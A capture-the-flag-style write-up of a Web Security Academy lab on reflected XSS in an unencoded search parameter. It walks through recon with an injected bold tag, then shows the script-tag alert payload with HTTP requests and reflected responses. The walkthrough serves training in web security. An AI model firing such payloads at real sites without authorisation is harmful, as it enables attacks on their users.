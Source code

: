 ### Lab: Reflected XSS into HTML context with nothing encoded

#### **Recon:**
-----
**Request:**
```http
GET /?search=<b>content_injection</b> HTTP/2
Host: 04a.web-security-academy.net

...Omitted for Brevity...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 6791

...Omitted for Brevity...
```

`view-source:https://04a.web-security-academy.net/?search=<b>content_injection</b>
```html
...Omitted for Brevity...

<section class=blog-header>
	<h1>0 search results for '<b>content_injection</b>'</h1>
	<hr>
</section>

...Omitted for Brevity...
```
Content Injection Confirmed

**Affected Location:**
```
https://04a.web-security-academy.net/?search=<script>alert("xss")</script>
```
### **Exploitation**
-----
**Payload:** 
```js
<script>alert("xss")</script>
```

**Request:**
```http
GET /?search=<script>alert("xss")</script> HTTP/2
Host: 04a.web-security-academy.net

...Omitted for Brevity...

```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 6281

...Omitted for Brevity...
                   <section class=blog-header>
                        <h1>0 search results for '<script>alert('xss')</script>'</h1>
                        <hr>
                    </section>
...Omitted for Brevity...

```


